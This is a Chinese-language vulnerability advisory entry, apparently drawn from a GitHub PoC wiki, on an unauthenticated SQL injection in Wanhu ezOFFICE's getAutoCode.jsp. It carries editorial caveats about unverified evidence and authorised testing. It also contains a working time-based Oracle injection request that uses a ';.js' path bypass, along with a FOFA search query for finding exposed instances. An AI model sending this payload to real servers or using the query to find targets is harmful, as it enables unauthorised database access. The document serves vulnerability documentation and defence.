


# 万户ezOFFICE getAutoCode.jsp SQL注入

## 条目说明

- 对象与具体问题：万户ezOFFICE；getAutoCode.jsp SQL注入
- 版本、配置及部署条件：未给版本；Oracle DBMS_PIPE权限与;.js路由
- 认证与权限前提：声称未授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- XVE-2024-18749被错误放cnvd字段，需vendor_id命名空间
- HTTP缺围栏、厂商尚已的修复状态含混
- Oracle延迟样本不能证明RCE或在野利用

## 操作风险

命令/代码执行示例可能改变主机状态；延迟探测可能占用数据库连接或影响服务。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

万户 ezOFFICE getAutoCode.jsp  接口处存在SQL注入漏洞，未经身份验证的远程攻击者可利用此漏洞获取数据库权限，深入利用可获取服务器权限。

影响版本

万户 ezOFFICE协同管理平台

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="万户网络-ezOFFICE"

POC/EXP：

```http
GET /defaultroot/platform/custom/customizecenter/js/getAutoCode.jsp;.js?pageId=1&head=2%27+AND+6205%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2898%29%7C%7CCHR%2866%29%7C%7CCHR%2890%29%7C%7CCHR%28108%29%2C5%29--+YJdO&field=field_name&tabName=tfield HTTP/1.1 
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Connection: close
```








## 修复方案

1. 关闭互联网暴露面或接口设置访问权限

   厂商尚已提供漏洞修补方案，请关注厂商主页及时更新： 
   
   http://www.whir.net/


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
